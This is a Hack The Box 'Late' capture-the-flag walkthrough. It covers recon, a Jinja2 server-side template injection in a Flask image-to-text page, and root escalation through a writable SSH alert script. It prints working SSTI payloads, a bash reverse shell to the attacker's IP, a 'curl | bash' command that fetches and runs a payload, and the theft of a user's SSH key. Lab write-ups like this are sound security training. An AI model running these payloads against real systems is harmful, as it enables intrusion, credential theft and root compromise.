


## Recon
### nmap 

```
# nmap -sS -sC -sV -O -p- --min-rate 5000 late.htb
```


```
vim /etc/hosts
# 10.10.11.156    late.htb 
```


- web site- Home Page 

- A link direct to ```images.late.htb```


- add it to ```/etc/hosts```
```
vim /etc/hosts

# 10.10.11.156    late.htb images.late.htb
```


- Browse to ```images.late.htb```



### Gobuster 
```
gobuster dir -u late.htb -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```


```
gobuster dir -u late.htb -w /usr/share/wordlists/dirb/common.txt
```
- Access to /assets, get 403 Forbidden

### Nikto scan website

```
nikto -host late.htb
```


## Exploit 

### Upload file to test

1. Upload arbitray sample image


- After scan, it will download a ```result.txt``` to local automatically 
- The content is ```<p></p>``` without anythings. 
- Using Burp to modify the request body and inject some malicous code like reverse shell in Python
- But it will response the error code like "Error occured while processing the image ....."

2.  Create a text file name "test.txt", upload it and intercept by Burp


- It will redirect "Invalid Extension"

- Modified the name and filename to image in Burp Repeater

- It still response the error message "Error occured while processing the image..."

3. Try to upload another screen shot image

- Something special happened
- The context between ```<p></p>``` will show the word in the image.

- So, I think the image scanner will scan the image, find the string in the image and convert it to string.

- but so far, I only know it will convert to 'string'.
- If it always is a string and not be execute as a snipet code, it doesn't help anymore.
- so I start to google with the information I have
    1. The Scanner page needs the image to scan
    2. The context in the image will be convert to string if the word can readable
    3. The image convert page shows me that is build up by Flask
- From now, I have to find out the vulnerability of this function.
- In the image scan page, I know the function or I can say the page based on Flask
- With this clue, I have the following search result
1. [Hacking Flask Applications - Werkzeug Remote Code Execution Vulnerability](https://medium.com/swlh/hacking-flask-applications-939eae4bffed)
2. [(HackTricks)Flask](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/flask)

3. [(HackTricks)Werkzeug / Flask Debug](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/werkzeug)
4. [(HackTricks)Jinja2 SSTI](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection/jinja2-ssti)
- So I tried to exploit with the SSTI
- First, I generate a text file with the following content, and make a screen shot 
```
" {{7*7}} "
```

- Upload it and check the results.txt 


- Obviously, it's not the expected result.
- Then I change the content to this.
```
{{7*7}}
```

- It will response error.
- I tried to add space, still got error

- I think that caused by the yellow cursor 

- Then I change the screen shot like below.

- Gotcha, it gave me the expected result. 


- Now, I think I find the SSTI vulnerability
- Next Part, I need to get RCE from SSTI.
- Here is some reference 
1. [(PayloadsAllTheThings)Server Side Template Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection)
   
2. [(HackTricks)Jinja2 SSTI](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection/jinja2-ssti)

- Try the payload 
```
{{ cycler.__init__.__globals__.os.popen('id').read()}}
```


- It success to get current user information

- Then I just skip the following 2 payloads
```
{{ joiner.__init__.__globals__.os.popen('id').read() }}
```

```
{{ namespace.__init__.__globals__.os.popen('id').read() }}
```

- I can execute the command, now I will try to get reverse shell 
- Create a shell file with following content
```
#!/bin/bash

bash -i >& /dev/tcp/10.10.17.145/1337 0>&1
```


- Create a python web service. 
```
python -m http.server 9797
```
- Create nc listener
```
nc -nlvp 1337
```
- Create a screen shot with following 
```
{{ cycler.__init__.__globals__.os.popen('curl 10.10.17.145:9797/shell.sh | bash').read() }}
```


- Upload it and check python service

- Check nc get shell or not 


## Privilege Escalation 

- Now, I get into the victim machine 
- Check current user 
```
id
whoami
```

- Confirm user flag

- Check machine information 
```
uname -r
uname -a
```

- Found ssh credential in svc_acc's directory 
```
authorized_keys
id_rsa
id_rsa.pub
```

- Transfer it to my local and change the id_rsa's permission 
```
chmod 600 id_rsa
```
- SSH login 

- Check sudo permission
```
sudo -l 
```

- Upload linpeas.sh and execute it.


- Network status 

- Current running process

- crontab status 

- Here is a ssh-alert shell in /usr/local/sbin


- Check the contents 
- It will launch when someone use ssh to login
- And it will execute some command like sendmail to notify.

- Try to insert arbitrary strings into ssh-alert shell.
- Success...

- So, It is possible to inject some payload like reverse shell into this shell
- And I can wait until the shell is executed again by cron job
- Inject the following payload 
```
echo "sh -i >& /dev/tcp/10.10.17.145/1338 0>&1" >> ssh-alert.sh
```

- SSH login again
- Check nc listener on 1338, it will get reverse shell 
```
nc -nlvp 1338
```

- Confirm user 
```
whoami
id
```

- Check root flag


## Reference 

### Write up

- [Hack The Box - Late Walkthrough](https://systemweakness.com/hack-the-box-late-walkthrough-1a496ad6e13e)
- [Hack The Box: Late](https://davidguest.uk/hack-the-box-late/)
### Flask & Python

- [Hacking Flask Applications](https://medium.com/swlh/hacking-flask-applications-939eae4bffed)
- [Werkzeug](https://werkzeug.palletsprojects.com/en/2.1.x/)
- [Debugging Applications](https://werkzeug.palletsprojects.com/en/1.0.x/debug/)
- [DAY12-搞懂flask](https://ithelp.ithome.com.tw/articles/10201217)
- [Werkzeug與WSGI介紹](https://codertw.com/%E7%A8%8B%E5%BC%8F%E8%AA%9E%E8%A8%80/688868/)
- [Penetration Testing in Flask Application](https://www.securecoding.com/blog/penetration-testing-in-flask-application/)
- [Hacking and Securing Python Applications](https://www.shiftleft.io/blog/hacking-and-securing-python-applications/)
- [Timing Attack](https://security.snyk.io/vuln/SNYK-PYTHON-FLASKSECURITY-2420091)
- [(HackTricks)Flask](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/flask)
- [(HackTricks)Werkzeug / Flask Debug](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/werkzeug)
### SSTI

- [(HackTricks)SSTI (Server Side Template Injection)](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection)
- [(PayloadsAllTheThings)Templates Injections](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#jinja2)
- [Remote Code Execution on Jinja - SSTI Lab](https://secure-cookie.io/attacks/ssti/)
- [A Simple Flask (Jinja2) Server-Side Template Injection (SSTI) Example](https://kleiber.me/blog/2021/10/31/python-flask-jinja2-ssti-example/)
- [Flask（Jinja2） 服务端模板注入漏洞](https://github.com/vulhub/vulhub/tree/master/flask/ssti)
- [jinja2 ssti payload 构造的进一步探究](https://xz.aliyun.com/t/11079)
- [Python安全之SSTI——Flask/Jinja2](https://cloud.tencent.com/developer/article/1637529)
- [Exploring SSTI In Flask/Jinja2](https://blog.nvisium.com/p263)
- [SSTI in Flask/Jinja2](https://medium.com/@nyomanpradipta120/ssti-in-flask-jinja2-20b068fdaeee)
- [[Day11] SSTI (Server Side Template Injection)](https://ithelp.ithome.com.tw/articles/10272749)
- [RCE with Server-Side Template Injection](https://medium.com/r3d-buck3t/rce-with-server-side-template-injection-b9c5959ad31e)
- [Using Templates to Exploit a Flask/Jinja2 Website (HTB: Templated)](https://www.youtube.com/watch?v=tv0We4MM7ic)

### Image Upload Exploit Related

- [Hiding Webshell Backdoor Code in Image Files](https://www.trustwave.com/en-us/resources/blogs/spiderlabs-blog/hiding-webshell-backdoor-code-in-image-files/)
- [Hide malicious shell in image file](https://rcenetsec.com/hide-malicious-shell-in-image-file/)
- [ExifTool：從終端查看圖像的EXIF數據](https://www.linuxadictos.com/zh-TW/exiftool-visualiza-los-datos-exif-de-tus-imagenes-desde-la-terminal.html)
- [Bypass File Upload Filtering](https://sushant747.gitbooks.io/total-oscp-guide/content/bypass_image_upload.html)
- [about working on the flask framework web miscellaneous notes on file upload vulnerability testing](https://www.codestudyblog.com/cs2112pya/1207112629.html)
- [File Upload Vulnerability Tricks And Checklist](https://www.onsecurity.io/blog/file-upload-checklist/)
- [Flask 檔案上傳到伺服器的方法 (1)](https://medium.com/@charming_rust_oyster_221/flask-%E6%AA%94%E6%A1%88%E4%B8%8A%E5%82%B3%E5%88%B0%E4%BC%BA%E6%9C%8D%E5%99%A8%E7%9A%84%E6%96%B9%E6%B3%95-1-c11097c23137)
- [关于在flask框架上进行web文件上传漏洞测试的杂记](https://blog.csdn.net/qq_45071353/article/details/121527791)
### WebShell CTF CheatSheet

- [WEB CTF CheatSheet](https://github.com/w181496/Web-CTF-Cheatsheet#php-webshell)
- [中转Webshell 绕过安全狗（二）](https://www.jianshu.com/p/21ef2a70c5f6)
- [Python Webshell](https://gist.github.com/phoemur/461c97aa5af5c785062b7b4db8ca79cd)

### Privilege Escalation 

- [(GITHUB)linpeas download](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS)

### Reverse Shell 

- [Reverse Shell Generator](https://www.revshells.com/)


###### tags: `HackTheBox` `SSTI` `linux` `ssh` `cron job`